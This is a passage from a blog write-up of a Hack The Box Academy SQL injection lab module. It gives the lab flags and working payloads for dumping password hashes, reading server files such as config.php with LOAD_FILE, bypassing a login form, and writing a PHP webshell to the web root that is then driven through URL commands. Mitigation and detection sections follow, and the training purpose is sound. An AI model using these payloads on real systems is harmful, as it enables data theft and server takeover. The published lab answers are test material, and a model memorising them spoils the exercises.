
*_Figure 12.2 — Lab execution and output verification (Page 12)_*


### Database Enumeration

> **Lab Question (Page 13)**: What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?
>
> **Flag / Answer**: `9da2c9bcdf39d8610954e0e11ea8f45f`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Continuing from the previous section – we will run this query:
newuser' UNION SELECT 1, password, 3, 4 FROM ilfreight.users
WHERE username='newuser'-- -


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


### Reading Files

> **Lab Question (Page 14)**: We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.
>
> **Flag / Answer**: `dB_pAssw0rd_iS_flag!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we need to confirm that our obtained 'user()' has file reading
permissions:
jp' UNION SELECT 1, grantee, privilege_type, 4 FROM
information_schema.user_privileges WHERE
grantee="'root'@'localhost'"-- -


We have 'FILE' permission.

Lets try to read the 'search.php' file (the same code file that displayes the
website we use):
jp' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"),
3, 4-- -

we get this:


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


### the source code (right click  →  'View Page Source')

The whole source code doesn't renders well on the browser so lets read it on
the source code (right click  →  'View Page Source'):

Somewhere in the source code (line 59), we get to this reference of
'config.php' file, the lack of prefix path indicates it is in the same directory as
the 'config.php', so lets open that file via a similar manner:
jp' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"),
3, 4-- -


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


*_Figure 15.3 — Lab execution and output verification (Page 15)_*


### Writing Files

> **Lab Question (Page 16)**: Find the flag by using a webshell.
>
> **Flag / Answer**: `d2b5b27ae688b6a0f1d21b7d3a0798cd`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first lets confirm that we can read/write files to any location in the
machine:
jp' UNION SELECT 1, variable_name, variable_value, 4 FROM
information_schema.global_variables where
variable_name="secure_file_priv"-- -


Empty value means we can.

Now lets write our webshell to the machine:
jp' union select "",'<?php system($_REQUEST[0]); ?>', "", ""
into outfile '/var/www/html/shell.php'-- -


The page itself wont show anything interesting here.


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


### to test the webshell

However lets go in the browser to
http://<target-IP>:<target-port>/shell.php?0=id
to test the webshell:

It works!

Now we need to find the flag, it would be in the parent directory:
http://<target-IP>:<target-port>/shell.php?0=ls ..


Lets take it:
http://<target-IP>:<target-port>/shell.php?0=cat ../flag.txt


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


*_Figure 17.3 — Lab execution and output verification (Page 17)_*


### Capstone: Skills Assessment

> **Lab Question (Page 18)**: Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.
>
> **Flag / Answer**: `528d6d9cedc2c7aab146ef226e918396`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets start with opening the target website on the browser:
http://<target-IP>:<target-port>


We got to a login panel.
Now when attempting to enter something to username or any not working sql
injection payload, we will simply get this:

Incorrect credentials.. but there is a way to sql-inject to the login panel:
We will enter the username:
cn' UNION select 1,2,3-- -
and password: <any>
*we use here union of 3 elements. which might take trial and error process to
detect. *


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


### First lets confirm we have the permissions to do so

We get to the dashboard page, where we can see some payroll information,
and more importantly – search field which is sql-injection vulnerable.
We will use it to write a php webshell file (we of course know the website is
php based on the page extension).
First lets confirm we have the permissions to do so:
jp' UNION SELECT 1, 2, variable_name, variable_value, 5 FROM
information_schema.global_variables where
variable_name="secure_file_priv"-- -
*we use here union of 5 elements, which might take trial and error process to
detect. *

Empty value means we do.

Lets write the file – we can write that to the /dashboard' directory (which we
can notice exists from the URL:
jp' union select "",'<?php system($_REQUEST[0]); ?>', "",
"", "" into outfile '/var/www/html/dashboard/shell.php'-- -
*Make sure to write to 'dashboard' directory, for other places you will get
access denied. *


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


### lets test the webshell on the brower URL

We won't see anything  on the dashboard after the file write query, however –
lets test the webshell on the brower URL:
http://<target-IP>:<target-port>/shell.php?0=ls /


The flag's file name is 'flag_cae1dadcd174.txt'. lets cat it:

http://<target-IP>:<target-port>/shell.php?0=cat
/flag_cae1dadcd174.txt


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


*_Figure 20.3 — Lab execution and output verification (Page 20)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1190, T1003, T1505.003` |
| **Common Weakness Enumerations** | `CWE-89` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1190`](https://attack.mitre.org/techniques/T1190/) | **Exploit Public-Facing Application** | `Initial Access` | Injecting SQL commands through web application input vectors |
| [`T1003`](https://attack.mitre.org/techniques/T1003/) | **OS Credential Dumping** | `Credential Access` | Extracting database password hashes via UNION and Blind SQLi |
| [`T1505.003`](https://attack.mitre.org/techniques/T1505/) | **Server Software Component: Web Shell** | `Persistence` | Writing web shells to document root using `INTO OUTFILE` or `xp_cmdshell` |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-89`: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Implement parameterized queries and prepared statements across all database access layers to completely neutralize SQL injection.
- Monitor database query logs for abnormal SQL syntax (`UNION SELECT`, `SLEEP()`, `BENCHMARK()`, `waitfor delay`).
- Disable administrative database features like `xp_cmdshell` (MSSQL) and revoke file-write permissions (`FILE` privilege) from MySQL web accounts.


---

## Authoritative References & Recommended Reading

- [HTB Academy: SQL Injection Fundamentals](https://academy.hackthebox.com/module/33) — *Official Hack The Box curriculum track*
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html) — *Authoritative remediation guidelines*
- [PortSwigger: SQL Injection Vulnerabilities](https://portswigger.net/web-security/sql-injection) — *Interactive Web Security Academy training*
- [PayloadsAllTheThings: SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) — *Complete cheat sheet by SQL dialect (MySQL, MSSQL, PostgreSQL, Oracle)*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-16-shells-and-payloads/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 16: Shells & Payloads (Reverse, Bind & Web Shells)</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 17 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-18-sqlmap-essentials/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 18: SQLMap Essentials for Automated Database Takeover</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
